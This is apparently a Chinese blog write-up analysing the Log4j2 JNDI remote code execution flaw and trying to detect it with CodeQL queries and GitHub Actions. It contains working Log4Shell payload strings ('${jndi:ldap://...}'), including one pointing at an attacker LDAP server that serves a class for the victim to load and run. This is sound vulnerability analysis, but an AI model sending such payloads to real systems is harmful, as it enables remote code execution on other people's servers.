# log4j2漏洞分析与挖掘

## 前言

漏洞简介

>  2021年11月24日，阿里云安全团队向Apache官方报告了Apache Log4j2远程代码执行漏洞。     
      Apache Log4j2 是一个基于 Java 的日志记录工具。该工具重写了 Log4j 框架，并且引入了大量丰富的特性。该日志框架被大量用于业务系统开发，用来记录日志信息。 由于Log4j2组件在处理程序日志记录时存在JNDI注入缺陷，未经授权的攻击者利用该漏洞，可向目标服务器发送精心构造的恶意数据，触发Log4j2组件解析缺陷，实现目标服务器的任意代码执行，获得目标服务器权限。
              漏洞适用版本：2.0 <= Apache log4j2 <= 2.14.1

图解log4j2攻击过程



## 漏洞分析

### 0x00 环境搭建

https://github.com/1in9e/Apache-Log4j2-RCE克隆项目代码，使用IDEA打开，重新构建一下项目就可以了。

```xml
        <!--添加log4j相关jar包-->
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.14.1</version>
        </dependency>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.1</version>
        </dependency>
```

测试代码如下

```java
package com.example.logdemo;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jTest {
    private static final Logger logger = LogManager.getLogger();

    public static void main(String[] args) {
        logger.error("test");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        logger.error("${jndi:ldap://url/4fzudm}");
    }
}
```

由于代码使用的jndi注入，所以在`javax.naming.InitialContext#lookup()`下断点。

原因：JNDI注入的详细过程——https://www.yuque.com/m0re/demosec/yq3x4x



开启debug，运行后调用栈如下

```
lookup:417, InitialContext (javax.naming)
lookup:172, JndiManager (org.apache.logging.log4j.core.net)
lookup:56, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:221, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1110, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1033, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:132, MessagePatternConverter (org.apache.logging.log4j.core.pattern)
format:38, PatternFormatter (org.apache.logging.log4j.core.pattern)
toSerializable:344, PatternLayout$PatternSerializer (org.apache.logging.log4j.core.layout)
toText:244, PatternLayout (org.apache.logging.log4j.core.layout)
encode:229, PatternLayout (org.apache.logging.log4j.core.layout)
encode:59, PatternLayout (org.apache.logging.log4j.core.layout)
directEncodeEvent:197, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryAppend:190, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:181, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryCallAppender:156, AppenderControl (org.apache.logging.log4j.core.config)
callAppender0:129, AppenderControl (org.apache.logging.log4j.core.config)
callAppenderPreventRecursion:120, AppenderControl (org.apache.logging.log4j.core.config)
callAppender:84, AppenderControl (org.apache.logging.log4j.core.config)
callAppenders:540, LoggerConfig (org.apache.logging.log4j.core.config)
processLogEvent:498, LoggerConfig (org.apache.logging.log4j.core.config)
log:481, LoggerConfig (org.apache.logging.log4j.core.config)
log:456, LoggerConfig (org.apache.logging.log4j.core.config)
log:82, AwaitCompletionReliabilityStrategy (org.apache.logging.log4j.core.config)
log:161, Logger (org.apache.logging.log4j.core)
tryLogMessage:2205, AbstractLogger (org.apache.logging.log4j.spi)
logMessageTrackRecursion:2159, AbstractLogger (org.apache.logging.log4j.spi)
logMessageSafely:2142, AbstractLogger (org.apache.logging.log4j.spi)
logMessage:2017, AbstractLogger (org.apache.logging.log4j.spi)
logIfEnabled:1983, AbstractLogger (org.apache.logging.log4j.spi)
error:740, AbstractLogger (org.apache.logging.log4j.spi)
main:12, Log4jTest (com.example.logdemo)
```

### 0x01 分析调用栈

error是log4j的组件logger（日志记录器）下的一个方法。

入口函数`logIfEnabled`，在`AbstractLogger`文件中，可以看到很多日志的提示函数。这些函数都可以调用`logIfEnabled`

debug、error等，这里环境代码中是error



关于log4j2的日志等级，跟进的时候发现其中一个比较有意思的条件

```java
public void logIfEnabled(final String fqcn, final Level level, final Marker marker, final String message, final Throwable throwable) {
        if (this.isEnabled(level, marker, message, throwable)) {
            this.logMessage(fqcn, level, marker, message, throwable);
        }
    }
```

如果调用logMessage方法，那么就需要满足isEnabled为true，跟进isEnabled方法则是`org.apache.logging.log4j.core.Logger#isEnabled`

```java
public boolean isEnabled(final Level level, final Marker marker, final String message, final Throwable t) {
        return this.privateConfig.filter(level, marker, message, t);
    }
```

继续跟进到`org.apache.logging.log4j.core.Logger#fileter`

```java
boolean filter(final Level level, final Marker marker, final String msg, final Throwable t) {
            Filter filter = this.config.getFilter();
            if (filter != null) {
                Filter.Result r = filter.filter(this.logger, level, marker, msg, t);
                if (r != Result.NEUTRAL) {
                    return r == Result.ACCEPT;
                }
            }
//主要看return，返回的level不为空，且当前日志等级的intLevel大于默认intLevel
            return level != null && this.intLevel >= level.intLevel();
        }
```

关于各日志等级的intLevel值如下图



调试过程可以看到当前系统默认等级是200，而error的数值就是200，符合条件，所以isEnabled为true，才可以继续进行，这里如果将error改为其他日志类型，也就fatal可以通过，其他的日志等级都不满足。

改为fatal



看下结果，是100，符合条件



查看dnslog平台，返回了结果的。可以看到fatal是成功了的。



那么再换一个intLevel值大于200的debug尝试一下，发现level是DEBUG时，默认的是200（ERROR）不符合条件，就会自动跳出条件筛选。


设置这个默认的等级需要在log4j2的配置文件中进行配置，如果是更改到debug，那么使用debug也可以执行。

### 0x02 审计后续逻辑

对如何进行RCE进行分析，命令执行示意图



大概过程是，攻击者将攻击payload`${jndi:ldap://192.168.220.128:8080/Exploit}`发送给存在漏洞的服务器，服务器的log4j2将会解析这个payload，解析${}，读取出其中的内容。判断其为Ldap实现的JNDI。调用Java底层的Lookup方法。请求Ldap服务器，获取到Ldap协议数据：此数据为攻击者搭建的恶意服务器，将会返回一个恶意文件服务端地址给受害者服务器，使其去请求这个恶意文件服务器，请求这个恶意文件，将其下载下来，使用类加载器去加载这个恶意class文件，然后将其进行实例化，最后在服务器上执行命令。

## CodeQL挖掘

### 0x03 创建log4j2 Database

平时创建codeql数据库时，可以使用这个项目https://github.com/waderwu/extractor-java

这次的项目，创建数据库使用命令即可

```bash
codeql database create log4j2-rce --language=java --source-root=D:\Demo\Java\Apache-Log4j2-RCE --overwrite
```

成功创建



### 0x04 思路分析&问题

使用CodeQL分析，需要明白source和sink函数分别是什么，定位污点入口和汇聚的地方，并且需要显示path，这里是从`logger#error()`到`InitialContext#lookup()`

```java
/**
 * @name m0re
 * @kind log4j2_RCE
 * @problem.severity warning
 * @id java/example/empty-block
 */

import java

/*查找error入口*/
class ErrorMethod extends Method{
    ErrorMethod(){
        getParameterType(0).hasName("String") and/*保证error("String")的第一个参数是String类型的*/
        getNumberOfParameters() = 1 and/*只有一个参数*/
        getName() = "error" and/*方法名为error*/
        this.getDeclaringType().hasQualifiedName("org.apache.logging.log4j.spi", "AbstractLogger")
        /*方法所在的类是org.apache.logging.log4j.spi.AbstractLogger*/
    }
}

class LookupMethod extends Method{
    LookupMethod(){
        getName() = "lookup" and
        this.getDeclaringType().hasQualifiedName("javax.naming", "Context")
    }
}
/*
方法所属的类或其任意超类（包括继承链上的所有类）具有限定名称为 org.apache.logging.log4j.core.config.DefaultReliabilityStrategy
用于检测代码中是否使用了 Log4j 2.x 的 DefaultReliabilityStrategy 类或其子类的 log 方法。
它帮助确定是否存在特定的日志记录策略方法的使用，以便进一步分析和评估日志记录的可靠性和性能。
*/
class JndiManagerMethod extends Method{
    JndiManagerMethod(){
        getName() = "lookup" and
        this.getDeclaringType().hasQualifiedName("org.apache.logging.log4j.core.net", "JndiManager")
    }
}

class StrategyLogMethod extends Method{
    StrategyLogMethod(){
        getName() = "log" and
        this.getDeclaringType().getASupertype*().hasQualifiedName("org.apache.logging.log4j.core.config", "DefaultReliabilityStrategy")
    }
}

/*在查询谓词的定义中，使用了 a.polyCalls(b) 的语法。这表明查询谓词会检查方法 a 是否通过多态调用（polyCalls）方法 b。*/
query predicate more(Method a, Method b) {
    /*多态调用是指在编译时无法确定实际调用的方法，而是在运行时根据对象的实际类型来确定。这种多态性是面向对象编程中常见的特性之一。*/
    a.polyCalls(b)
}

from JndiManagerMethod end, ErrorMethod entryPoint
where more+(entryPoint, end)
select end, entryPoint, end, "找到了一个path从source到sink"
```

结果好像不太对劲，这里好像查出来的都是多态调用的，没有符合漏洞的，出问题了。



分析问题，首先考虑是不是规则的问题，尝试了其他的规则，当然也包括了GitHub官方给的规则，地址在：[JndiInject](https://github.com/github/codeql/blob/main/java/ql/src/experimental/Security/CWE/CWE-020/Log4jJndiInjection.ql)

然后同样是没有结果。尝试了其他师傅们写的规则，也是同样无结果，这个时候想了一下是不是我的数据库创建失败了。于是我看到了这篇文章https://xz.aliyun.com/t/12412，作者说使用GitHub Action来进行扫描。于是我尝试了一下



发现一个问题就是，（PS：红色告警这个是我第二次构建时失败的结果，后面再讲）只有XSS这种漏洞被扫描出来了，而我想要的log4j没有被发现，然后我就去看了下代码，发现我更改过配置文件后，没有更改回来，于是我又将debug改回了error重新构建，结果就出错了。当然本地构建是没有发现报错的，但是无法生成AST语法树，就搞得很头疼。


再去思考为什么我的数据库build会失败，随后我又在本地进行分析了一遍

```bash
codeql database analyze --format=csv --output=D:\Demo\Java\output log4j2-rce
```

结果好像还是跟GitHub扫描的一样。难道是我项目选择的有问题？？？


上面那个规则没有做DataFlow，因为第一步结果就没查询出来，后面也就没必要做了。下面就总结一下codeql的其他几个知识点吧。

## 总结

### 0x05 GitHub Action的使用

之前没有注意到过GitHub本身的功能，这次算是开了个窗。在项目中顶栏找到Actions



搜索codeql，就会将codeql快速筛选出来，点击Configure



不用管其他的，先点Commit changes，随后再点一次确认。这里是算配置文件，后面如果需要用自己的规则来扫描的话，再来修改。



点进去就可以看到正在构建的过程了。



结果的话，在Security中查看。

### 0x06 codeql的一点使用方法

--command使用

```
codeql database create --language=java --source-root=D:\Demo\Java\Apache-Log4j2-RCE log4j2-rce --command="mvn clean install"
```

加双引号才可以，单引号不行，会无法执行。

命令行分析

```
codeql database analyze --format=csv --output=D:\Demo\Java\output log4j2-rce
```

这个会将本地的ql库中的规则全部运行一遍，--format=是需要填写输出内容文件的格式，这里我这里填写的是csv

列出创建帮助

```bash
>codeql database create --help
Usage: codeql database create [OPTIONS] -- <database>
Create a CodeQL database for a source tree that can be analyzed using one of
the CodeQL products.

      <database>             [Mandatory] Path to the CodeQL database to create.
                               This directory will be created, and must not
                               already exist (but its parent must).

                             If the --db-cluster option is given, this will not
                               be a database itself, but a directory that will
                               contain databases for several languages built
                               from the same source root.

                             It is important that this directory is not in a
                               location that the build process will interfere
                               with. For instance, the target directory of a
                               Maven project would not be a suitable choice.
      --[no-]db-cluster      Instead of creating a single database, create a
                               "cluster" of databases for different languages,
                               each of which is a subdirectory of the directory
                               given on the command line.
  -l, --language=<lang>[,<lang>...]
